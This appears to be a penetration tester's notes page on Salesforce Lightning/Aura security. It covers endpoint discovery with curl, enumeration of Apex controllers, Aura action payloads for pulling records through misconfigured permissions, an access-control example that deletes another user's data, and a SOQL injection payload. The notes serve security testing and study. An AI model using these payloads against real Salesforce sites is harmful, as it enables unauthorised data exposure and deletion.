

# Commerce Cloud

> [!summary]
> Commerce Cloud is an ecommerce platform from Salesforce. It is comprised of [Salesforce B2C Commerce](https://www.salesforce.com/eu/products/commerce-cloud/ecommerce/) and [Salesforce B2B Commerce](https://www.salesforce.com/eu/products/commerce-cloud/b2b-ecommerce/) which are often used together to deliver end to end unified commerce.

Salesforce AppExchange gives developers the power to customize applications with "**cartridges**", available to anyone and developed by anyone.
Cartridges are mechanisms for packing and deploying program code and data
# Lightning

> [!summary]
> Salesforce Lightning is a component-based framework for Salesforce app development.
> Usually sites build with Lightning uses one of the following URLs:
> - \*.force.com
> - \*.secure.force.com
> - \*.live.siteforce.com
> 
> There are common URL “fingerprints” that will indicate a website is powered by Salesforce Communities:
> - /s/topic
> - /s/article
> - /s/contactsupport

## Salesforce Terminologies 

- **Salesforce Community**: sites that run on Salesforce’s Lightning framework and let customers and partners interface with Salesforce instances from outside an organization. Communities are public-facing and indexed by Google.
- **Salesforce Lightning Component Framework**: is a component-based framework for Salesforce app development. It includes the views (markup) and JS controllers on the client-side, then Apex controllers and databases on the server side. Default lightning components for example are ui, aura, and force. Those components are self-contained objects that a developer can assemble to create custom web pages. 
- **Aura components** perform actions on Salesforce objects. Components have **controllers** that export different methods (or actions) to perform certain tasks. These are functions that interact in some ways with **Objects**. **Params** can also be passed to these functions. There are two types of controllers:
		- **Standard** aura classes (`aura://`), pre-formatted functions to access Salesforce objects
		- **Custom** apex classes (`apex://`), new functions developed from scratch by developers.
- **Objects** can be considered like DB tables for storing data. They can be:
	- **Standard Objects** (also labled **Default Objects**)[^objects]. These are objects secured by SalesForce. A full list can be found [here](https://github.com/reversebrain/salesforce_standard_objects/blob/main/objects.txt).
	- **Custom Objects** [^custom-objects], identified by the `__c` in their name (like `level__c`). These are objects created manually by admins.
- **Fields** are like DB table columns
- **Records** are like DB table rows
- **Namespace** - Think of it like a package, which groups related components together. Default namespaces are `aura`, `ui` and `force`. Custom components that are created and added to a community will either use the namespace chosen by the Salesforce administrator, the namespace of a package, or simply use the `c` namespace which refers to the default namespace.
- **Descriptor** - A reference to a component in the form `namespace:component`. For example, `force:outputField` is a descriptor for the `outputField` component in the `force` namespace.
- **SOQL** - [Salesforce Object Query Language](https://developer.salesforce.com/docs/atlas.en-us.soql_sosl.meta/soql_sosl/sforce_api_calls_soql.htm)


Lightning leverages **objects**:
- some are available by **Default** and secured by SalesForce (also called **Standard Object**). A full list [^objects.txt] can be found [here](https://developer.salesforce.com/docs/atlas.en-us.object_reference.meta/object_reference/sforce_api_objects_list.htm)
- others are **Custom Objects** (identified by the `__c` in their name, like `level__c`)

[^objects]: [Standard Objects](https://developer.salesforce.com/docs/atlas.en-us.object_reference.meta/object_reference/sforce_api_objects_list.htm), developer.salesforce.com
[^custom-objects]: [Custom Objects](https://developer.salesforce.com/docs/atlas.en-us.object_reference.meta/object_reference/sforce_api_custom_objects_list.htm), developer.salesfroce.com

Objects have a very complex sharing model: [^salesforce-security]
- CRUDS
- Groups
- Sharing Rules
- Owner \[+Manual\] \[+Territory\] \[+Role\] 
- etc.

[^salesforce-security]: [How does Salesforce Lightning implement security?](https://www.enumerated.ie/index/salesforce#how), enumerated.ie

And **custom objects are rarely configured with the correct OLS/FLS/RLS**.
APEX Objects are similar to Java Objects: you can create classes (as templates) from which objects are instantiated.

An **unauthenticated user** is called a **Guest User** in Salesforce. In recent versions he is not enabled by default, however it's not rare to find Guest Users enabled in the wild. You can usually easily recognise if the guest user is enabled because you will see many automatic background requests to the `/aura` endpoint (however that's not always true).

In Lightning there is no actual administrator but there are specific groups created to perform privileged/restricted actions.
This is for ease of permissions but this is where custom objects become an issue.

>[!attention] Permissions
>Permissions are set for objects, fields and records **_separately_**

## HTTP request format, Aura Components and APEX

Useful resources:
1. [Get Started with Aura Components](https://developer.salesforce.com/docs/atlas.en-us.lightning.meta/lightning/intro_components.htm)
2. [Quick Start: Aura Components](https://trailhead.salesforce.com/content/learn/projects/quickstart-lightning-components)

Aura components, Apex, and Salesforce form the backbone of Salesforce's Lightning platform, empowering developers to build dynamic, interactive web applications. **Aura components are reusable, modular building blocks** that enable the creation of rich user interfaces, while **Apex is Salesforce’s proprietary programming language**, used to implement complex business logic on the server-side.

The Apex classes that have methods which are denoted with `@AuraEnabled` are what interest us the most, as these methods can be called remotely through the Aura endpoint. Unfortunately without access to the code itself, exploitation of apex class methods will always be done blackbox unless the class is open source

Salesforce standard HTTP requests to aura components looks like the following:

```http
POST /s/sfsites/aura?r=4&ui-communities-components-aura-components-forceCommunity-richText.RichText.getParsedRichTextValue=1 HTTP/2
Host: salesforce.example.com
Cookie: renderCtx=%7B%22pageId%22%3A%22583cf5b6-cded-4306-87ca-c6527847be6d%22%2C%22schema%22%3A%22Published%22%2C%22viewType%22%3A%22Published%22%2C%22brandingSetId%22%3A%221f30656d-8d50-42f1-8e5d-bc7fab779243%22%2C%22audienceIds%22%3A%22%22%7D; CookieConsentPolicy=0:1; LSKey-c$CookieConsentPolicy=0:1; sfdc-stream=!dnI2jl7lkYYp4bXOYOQNICHX4CKe7+o2aQasVUvyeF2UK6mB1jiSu1equ3UOPIpLddGhf7GoU1eKpA==
Content-Length: 1324
Sec-Ch-Ua: "Not-A.Brand";v="99", "Chromium";v="124"
X-Sfdc-Page-Scope-Id: 69b7ebbe-2e8b-4622-9738-06da97612d69
X-Sfdc-Request-Id: 22933900001b9f0ff3
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Sec-Ch-Ua-Mobile: ?0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Sfdc-Page-Cache: c29575b7054d1291
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i

message=%7B%22actions%22%3A%5B%7B%22id%22%3A%2291%3Ba%22%2C%22descriptor%22%3A%22serviceComponent%3A%2F%2Fui.communities.components.aura.components.forceCommunity.richText.RichTextController%2FACTION%24getParsedRichTextValue%22%2C%22callingDescriptor%22%3A%22markup%3A%2F%2FforceCommunity%3ArichText%22%2C%22params%22%3A%7B%22html%22%3A%22%3Cp%20style%3D%5C%22text-align%3A%20right%3B%5C%22%3E%3Cimg%20class%3D%5C%22sfdcCbImage%5C%22%20alt%3D%5C%22%5C%22%20src%3D%5C%22%7B!contentAsset.NPAZ_599283a16ca1463fa0523e4088b460.1%7D%5C%22%20style%3D%5C%22width%3A%20368.115px%3B%20height%3A%2096.0625px%3B%5C%22%3E%3Cimg%20class%3D%5C%22sfdcCbImage%5C%22%20alt%3D%5C%22%5C%22%20src%3D%5C%22%7B!contentAsset.NPAZ_599283a16ca1463fa0523e4088b4602.1%7D%5C%22%20style%3D%5C%22width%3A%20377.013px%3B%20height%3A%2098.3875px%3B%5C%22%3E%3C%2Fp%3E%22%7D%2C%22version%22%3A%2261.0%22%2C%22storable%22%3Atrue%7D%5D%7D&aura.context=%7B%22mode%22%3A%22PROD%22%2C%22fwuid%22%3A%22UnpnOFNpOGttZTd0bGJqRkN2T2pGQWhZX25NdHFVdGpDN3BnWlROY1ZGT3cyNTAuOC4zLTYuNC41%22%2C%22app%22%3A%22siteforce%3AcommunityApp%22%2C%22loaded%22%3A%7B%22APPLICATION%40markup%3A%2F%2Fsiteforce%3AcommunityApp%22%3A%2248jFr9jtMWnzXaDp1ibM3w%22%7D%2C%22dn%22%3A%5B%5D%2C%22globals%22%3A%7B%7D%2C%22uad%22%3Afalse%7D&aura.pageURI=%2Fs%2F%3Flanguage%3Den_US&aura.token=null
```

The HTTP body decoded looks like:
```json
message={
  "actions": [
    {
      "id": "91;a",
      "descriptor": "serviceComponent://ui.communities.components.aura.components.forceCommunity.richText.RichTextController/ACTION$getParsedRichTextValue",
      "callingDescriptor": "markup://forceCommunity:richText",
      "params": {
        "html": "<p style=\"text-align: right;\"></p>"
      },
      "version": "61.0",
      "storable": true
    }
  ]
}&aura.context={
  "mode": "PROD",
  "fwuid": "UnpnOFNpOGttZTd0bGJqRkN2T2pGQWhZX25NdHFVdGpDN3BnWlROY1ZGT3cyNTAuOC4zLTYuNC41",
  "app": "siteforce:communityApp",
  "loaded": {
    "APPLICATION@markup://siteforce:communityApp": "48jFr9jtMWnzXaDp1ibM3w"
  },
  "dn": [],
  "globals": {},
  "uad": false
}&aura.pageURI=/s/?language=en_US&aura.token=null
```

>[!tip]
>You can use the [salesforce/lightning-burp](https://github.com/salesforce/lightning-burp) [burpsuite extension](../Tools/Burpsuite.md#Useful%20extensions) plugin for better handling Lightning

The important fields are:
- `message`: contains a JSON object that encapsulates all necessary data for structuring the communication between the client-side Lightning components and Salesforce's back-end.
- `aura.context`: provides essential metadata, state information, and security-related details that the server needs to process the request effectively. It encapsulates a variety of contextual data that enables the server to understand the environment in which the request is made.
- `aura.token`: the value will show whether or not you are authenticated. `undefined` or `null` values indicates you are a Guest User, otherwise a JWT token contains your user information.

`message` contains all the **actions** (typically JavaScript functions or Apex controller methods) that need **to be executed**. Each action corresponds to a specific operation that the client is asking the server to perform, and is made up by:
- `id`: random string used to identified multiple actions in the same request
- `descriptor`: A **reference to the controller method or component action** being invoked, in the form `namespace:component` (usually has the form `namespace://contoller-class/ACTION$method-to-invoke`).
- `callingDescriptor`: usually "UNKNOWN" since it is often ignored, but usually references the component or **controller that initiated the action**.
- `params`: **parameters** provided to the action.

>[!important]
>The `aura.context` and `aura.token` fields are **not strictly tied to a single website**, but **can be reused** (with minor adjustments) in any other Salesforce application, especially when the Guest User is enabled. This is very useful especially for interacting with instances that support the guest user and have enabled the aura endpoint, but that do not send requests automatically (and therefore do not provide a starting "request template").

## Enumeration [^fuzzing-salesforce]

### Identify the aura endpoint 

[^fuzzing-salesforce]: [Pen-Testing Salesforce Apps: Part 2 (Fuzz & Exploit)](https://infosecwriteups.com/in-simple-words-pen-testing-salesforce-saas-application-part-2-fuzz-exploit-eefae11ba5ae), Praveen Kanniah; infosecwriteups.com

The endpoint is **typically exposed on a standard paths**, however it may also be exposed on a path other than the root, and is **not always contacted automatically** when navigating to a Salesforce site:

```
# Standard endpoint
/s/sfsites/aura
/aura
/sfsites/aura

# Custom endpoint can start with other words, eg.
/admin/s/sfsites/aura
/customers/aura
/foo/bar/sfsites/aura
```

You can search for such paths using some common **nuclei templates** [^nuclei-template] or you can do it manually by sending an HTTP POST request and looking for the following patterns:

[^nuclei-template]: https://github.com/projectdiscovery/nuclei-templates/blob/main/http/misconfiguration/salesforce-aura.yaml


```
# Search for this pattern in server response:
"actions":[
aura:clientOutOfSync
aura:invalidSession
```

A good way to find the aura endpoint and the available communities without brute-forcing them, is to use some passive recon tools like gau [^gau] or waymore [^waymore] and search for the `/s/` pattern within the extracted URLs:

```sh
$ gau redacted.my.site.com
https://redacted.my.site.com/
https://redacted.my.site.com/random-asd-1/s/article/What-steps-do-you-take-to-ensure-website-accessibility
https://redacted.my.site.com/foo-bar-boom/s/mexico
https://redacted.my.site.com/Beep/s/equipment-listing
https://redacted.my.site.com/RAM/s/mexico
https://redacted.my.site.com/robots.txt
https://redacted.my.site.com/never-back-again/s/
https://redacted.my.site.com/
https://redacted.my.site.com/never-back-again/s/?language=en_US
https://redacted.my.site.com/ContactUs1337-pathUS/s/
https://redacted.my.site.com/login
https://redacted.my.site.com/Beep/s/
https://redacted.my.site.com/login?locale=us
  
$ curl -X POST https://redacted.my.site.com/Beep/s/sfsites/aura -H "Content-Type: application/x-www-form-urlencoded" -d 'foo=bar'
{"event":{"descriptor":"markup://aura:invalidSession","attributes":{"values":{}},"eventDef":{"descriptor":"markup://aura:invalidSession","t":"APPLICATION","xs":"I","a":{"newToken":["newToken","aura://String","I",false]}}},"exceptionMessage":"Guest user access is not allowed","exceptionEvent":true}
$ curl -X POST https://redacted.my.site.com/random-asd-1/aura -H "Content-Type: application/x-www-form-urlencoded" -d 'foo=bar'
{"event":{"descriptor":"markup://aura:invalidSession","attributes":{"values":{}},"eventDef":{"descriptor":"markup://aura:invalidSession","t":"APPLICATION","xs":"I","a":{"newToken":["newToken","aura://String","I",false]}}},"exceptionMessage":"Guest user access is not allowed","exceptionEvent":true}
```


### Identify Standard and Custom aura components

A few JS files are loaded in *nearly* every Salesforce web application, containing details about standard classes, actions, and *occasionally* custom classes as well.
1. `app.js`
2. `aura_prod.js`
3. `bootstrap.js`

**Grep** for the below pattern in the **responses** of these JS files to identify the various classes and controllers made available by the site: 
- `componentService.initControllerDefs([{`


Custom Classes sometimes are listed in those JS files too, but it's most common finding them in HTTP request and responses as you browse the application.

You can recognize Custom Classes from Standard ones because they start with `apex://` instead of `aura://`
```apex
// STANDARD Classes:
aura://RecordUiController/ACTION$getObjectInfo

// CUSTOM Classes:
apex://New_Sales_Controller/ACTION$getSalesData
```

You can easily search for them grepping the full HTTP history and looking for the following keywords:
- `compound://` in server responses (Most of the time you can recognize easily the request because the `message` parameter is passed inside the query string instead of a POST body)

- `apex%3a%2f%2f` in HTTP requests


You should obtain some results similar to the following snippet:
```json
"componentDef":{"descriptor":"markup://c:CA_CommunityUtil"},
... snip ...
{
"xs":"P","descriptor":"markup://c:CA_CommunityUtil",
"rl":true,"st":{"descriptor":"css://c.CA_CommunityUtil",
"co":"",
"cl":"cCA_CommunityUtil"},
"cd":{
  "descriptor":"compound://c.CA_CommunityUtil",
  "ac":[
    {
      "n":"getCurrentCommunityContextInfos",
      "descriptor":"apex://CommunityUtil/ACTION$getCurrentCommunityContextInfos",
      "at":"SERVER",
      "rt":"apex://Map<String,ANY>",
      "pa":[]
    },
    {
      "n":"getCurrentCommunityUrl",
      "descriptor":"apex://CommunityUtil/ACTION$getCurrentCommunityUrl",
      "at":"SERVER",
      "rt":"apex://String",
      "pa":[]
    }
  ]
}
```

The important values to note here are:
- The `descriptor` value that exists in `componentDefs` : This can be used for retrieving the full definition, although not required at the moment (more about this later). The descriptor format is made up of `namespace:component`.
- The `descriptor` value inside the `ac` field, defining the actual controller and action.
- `rt`: The return value type. In this case, it’s a Map.
- `pa`: Parameters that are passed to the apex class method, and their type. Here the parameter accepted is `url` of type `String`.

>[!tip]
>Use the following regex alongside some tool integrated with grep (eg. [Response Grepper](../Tools/Burpsuite.md#Response%20Grepper%20🔝)) in order to quickly extract custom apex class descriptors:
>Regex: `"descriptor":"(apex:\/\/[^\"]*)`
>

Sometimes, however, searching for `compound://` in server responses do not reveal any custom `apex` controller (because maybe has been cached in the browser in past, etc.). In these cases, we must use different approaches: 
1. we can search with a top-down approach every custom component starting from static resources [^appomni]
2. we can identify any HTTP request that sends a `message` field containing an `apex` controller and extract some important values that will be used later to query the `/auraCmpDef` endpoint and obtain any custom controller linked to the original `apex` class.

[^appomni]: [Retrieving the markup descriptor of custom Components](https://appomni.com/ao-labs/lightning-components-a-treatise-on-apex-security-from-an-external-perspective/#:~:text=Retrieving%20the%20markup%20descriptor%20of%20custom%20Components), appomni.com

```http
POST /foo/s/sfsites/aura?r=2&other.CommunityUtil.getCurrentCommunityContextInfos=1 HTTP/2
Host: [...REDACTED...]
Cookie: [...TRUNCATED...]
Content-Length: 760
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
X-Sfdc-Page-Scope-Id: 91062b0d-10f8-402b-a496-5ece7b62f20a
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
Origin: [...REDACTED...]
Referer: [...REDACTED...]
Priority: u=1, i

message=%7B%22actions%22%3A%5B%7B%22id%22%3A%2246%3Ba%22%2C%22descriptor%22%3A%22apex%3A%2F%2FCommunityUtil%2FACTION%24getCurrentCommunityContextInfos%22%2C%22callingDescriptor%22%3A%22markup%3A%2F%2Fc%3ACA_CommunityUtil%22%2C%22params%22%3A%7B%7D%7D%5D%7D&aura.context=%7B%22mode%22%3A%22PROD%22%2C%22fwuid%22%3A%22ZzhjQmRxMXdrdzhvS0RJMG5qQVdxQTdEcXI0cnRHWU0zd2xrUnFaakQxNXc5LjMyMC4y%22%2C%22app%22%3A%22siteforce%3AloginApp2%22%2C%22loaded%22%3A%7B%22APPLICATION%40markup%3A%2F%2Fsiteforce%3AloginApp2%22%3A%221098_0Gzb_TJPQxPxmu8ktwr7uw%22%7D%2C%22dn%22%3A%5B%5D%2C%22globals%22%3A%7B%7D%2C%22uad%22%3Afalse%7D&aura.pageURI=[...TRUNCATED...]&aura.token=null
```

From the relative `context` field, we have to extract:
- the `loaded` content and the relative ID
- the desired `descriptor`

From the `message` field, we have to identify the custom `callingDescriptor`.


Once obtained these three information, we can query the `/auraCmpDef` endpoint and extract every declared apex controller for the specified descriptor:

```http
GET /example/auraCmpDef?aura.app=<APP_MARKUP>&_au=<AU_VALUE>&_def=<COMPONENT_MARKUP>&_ff=DESKTOP&_l=true&_cssvar=false&_c=false&_l10n=en_US&_style=-1450740311&_density=VIEW_ONE HTTP/1.1
Host: redacted.my.site.com
```

Example: https://redacted.my.site.com/example/auraCmpDef?aura.app=markup://siteforce:loginApp2&_au=1098_0Gzb_TJPQxPxmu8ktwr7uw&_def=markup://c:CA_CommunityUtil&_c=false&_density=VIEW_ONE&_dfs=8&_ff=DESKTOP&_l=true&_l10n=en_US&_lrmc=-386269907&_style=-1450740311&_uid=329__98ODtCT_xKhlVwqtRYokg&aura.mode=PROD


Now that we know exactly the definition of the controller, we can craft an ad-hoc `message` to the Salesforce instance to attempt to interact with the method:

```http
POST /[...REDACTED...]/s/sfsites/aura HTTP/2
Host: [...REDACTED...]
Cookie: [...TRUNCATED...]
Content-Length: 816
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

message={"actions":[{"id":"150;a","descriptor":"apex://CommunityUtil/ACTION$getCurrentCommunityContextInfos","callingDescriptor":"markup://c:CA_CommunityUtil","params":{}}]}&aura.context=%7B%22mode%22%3A%22PROD%22%2C%22fwuid%22%3A%22ZzhjQmRxMXdrdzhvS0RJMG5qQVdxQTdEcXI0cnRHWU0zd2xrUnFaakQxNXc5LjMyMC4y%22%2C%22app%22%3A%22siteforce%3AcommunityApp%22%2C%22loaded%22%3A%7B%22APPLICATION%40markup%3A%2F%2Fsiteforce%3AcommunityApp%22%3A%221176_RiEqto7a10RL4-qsAx8xFg%22%2C%22MODULE%40markup%3A%2F%2Flightning%3Af6Controller%22%3A%22292_Kx4YnuF8cbgQbawpLBy0SQ%22%2C%22COMPONENT%40markup%3A%2F%2Finstrumentation%3Ao11ySecondaryLoader%22%3A%22335_G1NlWPtUoLRA_nLC-0oFqg%22%7D%2C%22dn%22%3A%5B%5D%2C%22globals%22%3A%7B%7D%2C%22uad%22%3Afalse%7D&aura.pageURI=[...REDACTED...]&aura.token=null
```

A more detailed list of descriptors and undocumented endpoints can be found to the following links:
- [lightning/ui\*Api Wire Adapters and Functions](https://developer.salesforce.com/docs/platform/lwc/guide/reference-ui-api.html), developer.salesforce.com
- [Aura descriptors and how to use them](https://www.varonis.com/blog/abusing-salesforce-communities#:~:text=Aura%20descriptors%20and%20how%20to%20use%20them) (written by Nitay Bachrach, varonis.com)

### Identify Standard and Custom Objects

Down below there is a list of Controllers and Actions can be used to enumerate Objects and search for permission issues or information leaks:

**getConfigData**
List all the configuration and objects within the `apiNamesToKeyPrefixes` key for the current Salesforce application:
```json
{"actions":[{"id":"1;a","descriptor":"aura://HostConfigController/ACTION$getConfigData","callingDescriptor":"UHNKNOWN","params":{}}]}
```


**getObjectInfo**
Understand if the user has access to the object or not. It will not return any informative response if the user does not have access. If accessible, this will return information about an object and its corresponding fields. Watch out for `__c` in the response from each object to make note of the custom objects.

```json
{"actions":[{"id":"1;a","descriptor":"aura://RecordUiController/ACTION$getObjectInfo","callingDescriptor":"UHNKNOWN","params":{"objectApiName":"§FUZZ-EVERY-STANDARD-OBJECT§"}}]}
```


**getListByObjectName**
returns the lists created for an object in the UI. Watch out for `__c` in the response from each object to make note about the related custom objects and fields.
```json
{"actions":[{"id":"1;a","descriptor":"aura://ListUiController/ACTION$getListsByObjectName","callingDescriptor":"UHNKNOWN","params":{"objectApiName":"§FUZZ-EVERY-STANDARD-OBJECT§"}}]}
```


## Fuzzing and Exploitation

### Object permission issues

If the admin messed up with the sharing permissions via admin panel, then using standard controllers like this, you should be able to retrieve records.

**getItems**
retrieves records for a given object corresponding to a user, but if record permissions are misconfigured, this can retrieve records of an entire object.
```json
{"actions":[{"id":"123;a","descriptor":"serviceComponent://ui.force.components.controllers.lists.selectableListDataProvider.SelectableListDataProviderController/ACTION$getItems","callingDescriptor":"UNKNOWN","params":{"entityNameOrId":"§FUZZ-EVERY-STANDARD-OBJECT§","layoutType":"FULL","pageSize":100,"currentPage":0,"useTimeout":false,"getCount":false,"enableRowActions":false}}]}
```

**getRecord** [^get-record]
retrieves record based on a record id. This mostly works for an authenticated user.

[^get-record]: [`getRecord`](https://developer.salesforce.com/docs/platform/lwc/guide/reference-wire-adapters-record.html?q=getRecord), developer.salesforce.com

>[!info]
>Id generally looks like this  `“Id”:”0099g000001mWQaYHU”`

```json
{"actions":[{"id":"123;a","descriptor":"serviceComponent://ui.force.components.controllers.detail.DetailController/ACTION$getRecord","callingDescriptor":"UNKNOWN","params":{"recordId":"§RECORD-ID§","record":null,"inContextOfComponent":"","mode":"VIEW","layoutType":"FULL","defaultFieldValues":null,"navigationLocation":"LIST_VIEW_ROW"}}]}
```

Specific objects will return IDs, particularly those related to attachments. Here is how to utilise them (These paths are relative to the base path, not the aura endpoint):

- Document - Prefix 015 - `/servlet/servlet.FileDownload?file=ID`
- ContentDocument - Prefix 069 - `/sfc/servlet.shepherd/document/download/ID`
- ContentVersion - Prefix 068 - `/sfc/servlet.shepherd/version/download/ID`

A list of default object ID prefixes can be found [here](https://www.biswajeetsamal.com/blog/salesforce-object-key-prefix-list/).

```json
// input
{"actions":[{"id":"123;a","descriptor":"serviceComponent://ui.force.components.controllers.lists.selectableListDataProvider.SelectableListDataProviderController/ACTION$getItems","callingDescriptor":"UNKNOWN","params":{"entityNameOrId":"ContentVersion","layoutType":"FULL","pageSize":100,"currentPage":0,"useTimeout":false,"getCount":false,"enableRowActions":false}}]}

//output
{"record":{"LastModifiedDate":"2023-09-01T13:13:22.000Z","Description":null,"CreatedDate":"2023-09-01T13:13:20.000Z","Title":"NPAZ_599283a16ca1463fa0523e4088b4602 (1)","CurrencyIsoCode__l":"EUR - Euro","Id":"068690000164AzJAAU","CurrencyIsoCode":"EUR","LastModifiedById":"0056900000BlCU8AAN","SystemModstamp":"2024-03-22T11:21:11.000Z","sobjectType":"ContentVersion"}}
```

```http
GET /sfc/servlet.shepherd/version/download/068690000164AzJAAU HTTP/2
Host: redacted.com

--- RESPONSE ---

HTTP/2 200 OK
Date: Wed, 03 Jul 2024 20:04:52 GMT
Content-Type: image/jpeg; charset=UTF-8
```


### Broken Access Control on Custom Classes

Let’s assume that a developer created a couple of custom Classes to pull sales data from a custom object `salesdata__c` `apex://New_Sales_Controller/ACTION$getSalesData`, this retrieves sales data of all users and another controller to delete sales data baesd on Id `apex://New_Sales_Controller/ACTION$deleteSalesDataById`

```json
getSalesData
{"actions":[{"id":"1;a","descriptor":"apex://New_Sales_Controller/ACTION$getSalesData","callingDescriptor":"UNKNOWN","params":{}}]}

deleteSalesDataById
{"actions":[{"id":"1;a","descriptor":"apex://New_Sales_Controller/ACTION$deleteSalesDataById","callingDescriptor":"UNKNOWN","params":{"id":"***"}}]}
```

Assume the actual permissions work this way: `getSalesData` is viewable by **all users** and `deleteSalesDataById` can only be used to delete the current user’s sales data. But the developer misses to sanitize `deleteSalesDataById`.

```json
{
 "actions":[
   {
     "id":"123;a",
     "state":"SUCCESS",
     "returnValue":{
        "result":[
          {
            "record":{
              "Name":"User1",
              "Company Name":"Company1",
              "email":"User1@comapny1.com",
              "Year":"2020",
              "Sales":"5725",
              "Id":"0099g000001mWQsVSK",
          }
        },
        {
            "record":{
              "Name":"User2",
              "Company Name":"Company2",
              "email":"User2@comapny2.com",
              "Year":"2020",
              "Sales":"5725",
              "Id":"0099g000001mWQaYHU",
	}
}
```

Assuming that the current user is **user1**, let’s try to **delete user2**. This can be done by copying the “Id” parameter of User from the above response and pasting it in the `deleteSalesDataById`

```json
deleteSalesDataById
{"actions":[{"id":"1;a","descriptor":"apex://New_Sales_Controller/ACTION$deleteSalesDataById","callingDescriptor":"UNKNOWN","params":{"id":"0099g000001mWQaYHU"}}]}
```

Since this is a custom controller and proper sanitisation checks were not in place, user1 can delete the sales data of user2, resulting in an [Access control vulnerabilities](../Web%20&%20Network%20Hacking/Access%20control%20vulnerabilities.md).

Another interesting use case is this [^file-upload-salesforce] access control issue that allows arbitrary file upload of attachments on any victim's case. 

[^file-upload-salesforce]: [Salesforce Lightning - An in-depth look at exploitation vectors for the everyday community](https://www.enumerated.ie/index/salesforce#putting), enumerated.ie
### SOQL Injection

This is very similar to the traditional [SQL Injection](../Web%20&%20Network%20Hacking/SQL%20Injection.md), except that:

- SOQL allows only SELECT statements, no INSERT, UPDATE or DELETE
- Also, no UNION, JOIN operators or any command execution.

If the backend code accepts user input inside a query without proper validation, one can change the SELECT query to fetch more data.

```
USER INPUT
name=bob

VULNERABLE QUERY
SELECT Id FROM Contact WHERE (IsDeleted = false and Name like '%Bob%')
```

Exploit:
```
USER INPUT
name: test%') OR (Name LIKE '
VULNERABLE QUERY
SELECT Id FROM Contact WHERE (IsDeleted = false AND Name LIKE '%test%') OR (Name LIKE '%')
```

# External articles

- [Salesforce Lightning - An in-depth look at exploitation vectors for the everyday community](https://www.enumerated.ie/index/salesforce)
- [Salesforce Lightning - Tinting the Windows](https://www.enumerated.ie/index/salesforce-lightning-tinting-the-windows)
- [Lightning Components: A Treatise on Apex Security from an External Perspective](https://appomni.com/ao-labs/lightning-components-a-treatise-on-apex-security-from-an-external-perspective/)
	- https://go.appomni.com/hubfs/Collateral/AOLabs_White_Paper_Salesforce_Security_Lightning_Components.pdf
- [Abusing Misconfigured Salesforce Communities for Recon and Data Theft](https://www.varonis.com/blog/abusing-salesforce-communities)